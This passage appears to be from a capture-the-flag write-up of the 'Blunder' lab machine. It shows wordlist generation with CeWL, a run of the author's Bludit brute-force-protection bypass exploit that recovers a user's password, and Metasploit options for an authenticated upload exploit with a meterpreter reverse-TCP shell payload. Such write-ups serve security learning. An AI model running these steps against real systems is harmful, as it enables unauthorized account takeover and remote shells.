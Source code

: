 So I searched on internet and found some articles talking about bruteforce
protection bypass:

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [Bludit CMS Version 3.9.2 Brute Force Protection Bypass](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb)

With [CeWL][cewl] let's build a wordlist based on the words from the website:

```
$ cewl -w blunder_wordlist.txt -m 5 http://10.10.10.191
```

Then we can try to find `fergus` password via bruteforce. I made an exploit
for the Brute Force Mitigation Bypass:
[Bludit-auth-BF-bypass](https://github.com/noraj/Bludit-auth-BF-bypass).

```
$ ./exploit.rb -r http://10.10.10.191 -u fergus -w blunder_wordlist.txt
[*] Trying password: Plugins
[*] Trying password: Include
[*] Trying password: About
[*] Trying password: Begin
[*] Trying password: service
[*] Trying password: Stadia
[*] Trying password: Dynamic
[*] Trying password: blunder
[*] Trying password: interesting
[*] Trying password: facts
[*] Trying password: devices
[*] Trying password: Google
...
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

Now we can log in and will probably be able to use one of the authenticated
exploit.

Let's try the [msf][msf] one:

```
msf5 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.98     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```